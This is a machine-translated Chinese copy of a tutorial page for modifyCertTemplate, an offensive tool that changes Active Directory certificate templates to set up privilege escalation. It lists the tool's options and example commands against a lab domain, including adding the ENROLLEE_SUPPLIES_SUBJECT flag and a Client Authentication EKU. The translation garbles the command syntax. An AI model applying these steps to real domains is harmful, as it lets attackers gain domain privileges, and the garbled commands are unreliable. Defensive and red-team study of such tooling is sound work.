 # modifyCertTemplate : ADCS 证书模板修改和 ACL 枚举

> 原文：<https://kalilinuxtutorials.com/modifycerttemplate/>

[![](img/2dfde7945f63bb554c910a25e1a3a7ba.png)](https://blogger.googleusercontent.com/img/b/R29vZ2xl/AVvXsEirCmk5JYxtV1wX_pUEMCtQzFGgJ53thGO6GKiOuDj_OF5bAB6YX1ToPXLNi_Wtgr7iVHSuawJ2RcOXXDe47Jtcsp814ncxOeXWqZP2u9C4D0286HG6dzUfRStnoz-eQu_uL1k98pH85GYPwYgYkJCuc8cPV5rR6IiVp1_eupWuyVla4JW-_Veipd0G/s728/modify%20(1).png)

**modifyCertTemplate** 工具旨在帮助操作员修改 ADCS 证书模板，以便可以利用创建的易受攻击状态进行权限提升(然后将模板重置为之前的状态)。这是专门为模板上的`**WriteProperty**`权限已经受损，但操作员不确定该权限适用于哪些属性的情况而设计的。在这个场景中，可以查询模板的 ACL，并且可以用属性 GUIDs 交叉引用适用的 ACE 信息，以确定可修改的属性。

## 使用

**用法:modifycerttemplate . py[-h]-template 模板名称[-property 属性名称] [-value 新值] [-get-acl] [-dn 可分辨名称] [-raw] [-add 标志名称][-debug]
[-hashes lm hash:n hash][-no-pass][-k][-AES key 十六进制密钥][-DC-IP IP IP 地址] [-ldaps]
目标
修改一个 Active Directory 证书模板的属性
位置参数:
目标 –帮助显示此帮助消息并退出
-模板模板名称
目标证书模板的名称
-属性属性名称
目标模板属性的名称
-值新值将指定模板属性设置为
的值-get-acl 打印证书的 ace
-dn 可分辨名称
显式设置证书模板的可分辨名称
-raw 输出原始证书模板属性
-添加标志名称将标志添加到属性， 维护现有标志
-debug 打开调试输出
认证:
-hashes lm hash:n hash
NTLM 哈希，格式为 lm hash:n hash
-no-pass 不要询问密码(对-k 有用)
-k 使用 Kerberos 认证。 根据目标参数从 ccache 文件(KRB5CCNAME)中获取凭据。如果找不到有效的凭证，
将使用命令行中指定的凭证
-aesKey hex key AES key 用于 Kerberos 身份验证(128 或 256 位)
连接:
-DC-ip IP IP 地址域控制器的 IP 地址。如果省略，它将使用目标参数
中指定的域部分(FQDN)——ldaps 使用 ldaps 而不是 LDAP**

# 例子

### 查询模板或属性值

查询证书模板(所有属性)

**python 3 modifycerttemplate . py-template Kerberos 认证 ez.lab/administrator:pass**

从证书模板中查询单个属性

**python 3 modifycerttemplate . py-template Kerberos authentication-property msPKI-Certificate-Name-Flag ez.lab/administrator:pass**

查询所有模板属性的原始值

**python 3 modifycerttemplate . py-template Kerberos authentication-raw ez.lab/administrator:pass**

### 查询 ACL 信息

在 ACL 中查询证书模板

**python 3 modifycerttemplate . py-template Kerberos authentication-get-ACL ez.lab/administrator:pass**

尽管与证书模板无关，但通过提供对象的可分辨名称，可以查询任何对象的 ACL

**python 3****modifycerttemplate . py-dn " CN = ws1，CN=computers，DC=ez，DC = lab "-get-ACL ez.lab/administrator:pass**

### 修改模板

将 **`ENROLLEE_SUPPLIES_SUBJECT`** 标志添加到模板的`**msPKI-Certificate-Name-Flag**`属性中

**python 3 modifycerttemplate . py-template Kerberos authentication-add enrolee _ supplies _ subject-property msPKI-Certificate-Name-Flag ez.lab/administrator:pass**

更新证书模板属性的值(非列表属性)

**python 3 modifycerttemplate . py-template Kerberos authentication-property msPKI-Certificate-Name-Flag-value-150994944 ez.lab/administrator:pass**

向`**pKIExtendedKeyUsage**`属性添加一个 EKU

**python 3 modifycerttemplate . py-template Kerberos authentication-添加“客户端认证”-属性 pKIExtendedKeyUsage ez.lab/administrator:pass**

更新列表格式属性的值(即明确设置`**pKIExtendedKeyUsage**`的值)

**python 3 modifycerttemplate . py-template Kerberos authentication-value " ' 1 . 3 . 6 . 1 . 5 . 5 . 7 . 3 . 4 '，' 1 . 3 . 6 . 1 . 5 . 5 . 7 . 3 . 2 ' "-property PKI extendedkey usage ez.lab/administrator:pass**

[**Download**](https://github.com/fortalice/modifyCertTemplate)